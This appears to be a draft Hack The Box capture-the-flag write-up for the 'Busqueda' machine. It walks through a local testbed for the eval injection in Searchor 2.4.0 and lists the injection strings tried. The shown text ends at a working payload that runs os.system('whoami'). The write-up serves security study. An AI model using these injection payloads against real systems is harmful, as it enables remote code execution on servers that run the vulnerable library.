 Title: HTB Machine Busqueda
Date: 2023-05-11 22:00
Category: Linux
Tags: ctf, linux, python, eval
Status: draft

Busqueda is a 2023 machine (don't know exactly) and is in the easy range.

## Init Recon

![picture 1](../images/04ac0f19058874fcb4e8b581c67fc3cdf4752bbf679a5f8f55228d9d049105f4.png)  

It has two ports (22, 80) open. On port 80 is a webapp. We start with that.
Sorry for my version of the web-page might look ugly. I used HTB Pwnbox, and they can't load the js because of no internet.
![picture 2](../images/37178a6082db92266f1de3a13693b0b159e8efbfe5c8665657e1dbb91ed91ca5.png)  

  

By googling for Searchor [this](https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b) eval problem will show up. I tried to exploit it blind by guessing but I was out of luck. So I will go into building a testbed.

Therefore, we install searchor and just copy the code, but minimize what we probably don't need, so I removed the history part:

```bash
pip install searchor==2.4.0,click
```

```python
import click
from searchor import Engine

def search(engine, query, open, copy):
    try:
        url = eval(
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
        url = Engine[engine].search(query, copy_url=copy, open_web=open)
        click.echo(url)
    except AttributeError:
        print("engine not recognized")

search("Google","INJECT-HERE",False,False)
```

now we can just run with different injections

```
' -> SyntaxError: unterminated triple-quoted string literal 
')#             -> no error
');#            -> invalid syntax <-> ; is not allowed
')print("hi")#  -> the double-quote breaks the search function call
')print('hi')#  -> invalid syntax <-> probably because two connected commands
'),print('hi')# -> works!!!
```

![picture 3](../images/951d2ae424d35221ae7d9fa0a8a8852496a42404d0440ff4e0d07b37842e1399.png)  

Just to see how that can be, I verified that in python directly, seems function calls can be seperated with a colon:
![picture 4](../images/7541f719e1803d0038a0fe81f93cdec7e4841b7bad72e8fc7b9f2245eb6be845.png)  

So the two main things I recognize that did not work with random rev shells from the web are double quotes and semicolon. For most functionality we want to have we will need to be able to import in python. Since we will work with one line of code, normaly imports would be seperated with semicolon still.

The reason is probably that there can not be confusion between a function call and importing, like so:

```python
import os, socket, os.system("hi")
```
Therefore we need a way to get to this functionality.

By looking at the rev shells [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python), we can see that an import can be done like:

```python
os=__import__("os");...;os.dub2(...)
```

Now think about it, this will put the import in the variable and later work on it. Meaning we can just shorten this code to:

```python
__import__("os").dub2(...)
```

Therefore a way of executing code should be possible with

```python
__import__('os').system('whoami')
```

Testing shows it works:
 
![picture 6](../../images/a7b4ddb8a7dbf053aaf97fbc062a997bd95a596f63db2fbf92e2c4b9304c69fd.png)  

